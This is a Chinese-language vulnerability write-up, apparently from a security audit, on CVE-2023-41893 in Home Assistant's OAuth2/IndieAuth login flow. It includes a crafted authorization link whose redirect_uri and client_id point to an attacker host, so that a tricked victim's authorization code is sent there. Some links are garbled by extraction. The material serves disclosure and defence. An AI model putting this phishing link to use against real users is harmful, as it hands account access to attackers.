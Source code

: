 > [https://tools.ietf.org/html/rfc6749](https://tools.ietf.org/html/rfc6749)
> 
> [https://indieauth.spec.indieweb.org/](https://indieauth.spec.indieweb.org/)
> 
> [https://developers.home-assistant.io/docs/auth\_api/](https://developers.home-assistant.io/docs/auth_api/)

Home Assistant 的 Web 应用程序和移动应用程序使用 OAuth 2 规范结合 OAuth 2 IndieAuth 扩展来授权自己访问 Home Assistant API。在认证方面，允许使用几个不同的服务提供商，但默认采用的是基于用户名和密码的“Home Assistant Auth Provider”。OAuth2/IndieAuth 流程在 Home Assistant 的官方文档中有详细的描述。

[![](assets/1708919782-d7757322ab6b65e85f0921c752a6bedc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218111012-3ab5efc4-ce0b-1.png)

在对 OAuth 流程实现的审计结果中，我们发现了两个安全漏洞。

## 七、不受限制的 OAuth2 客户端：**CVE-2023-41893/GHSL-2023-164**

Home Assistant 目前没有允许或禁止 OAuth2 客户端的功能。这意味着任何人都可以通过授权请求中的 client\_id 参数（/authorize）指定一个 OAuth2 客户端。尽管 Home-Assistant 会通过消息告知用户"You're about to give http:// access to your Home Assistant instance"，但这个消息并没有明确指出这是一个潜在的危险。这个消息显示的内容在用户本地登录和远程登录时看起来都是一样的。为了利用这一点，攻击者可以创建一个类似于下面的链接，并诱骗受害者点击它并登录他们的 Home Assistant 实例：

```bash
http://homeassistant.local:8123/auth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fhomeassistant.local.evil%3A8123%2F%3Fauth_callback%3D1&client_id=http%3A%2F%2Fhomeassistant.local.evil%3A812300%2F&state=
```

在这个链接中，redirect\_uri 和 client\_id 查询参数都被修改，指向攻击者在[http://homeassistant.local.evil:8123上运行的OAuth客户端。重要的是要注意，尽管如此，受害者仍然会看到他们的Home](http://homeassistant.local.evil:8123上运行的OAuth客户端。重要的是要注意，尽管如此，受害者仍然会看到他们的Home) Assistant 实例 URL（[http://homeassistant.local:8123），并且会被引导至登录页面。](http://homeassistant.local:8123），并且会被引导至登录页面。)

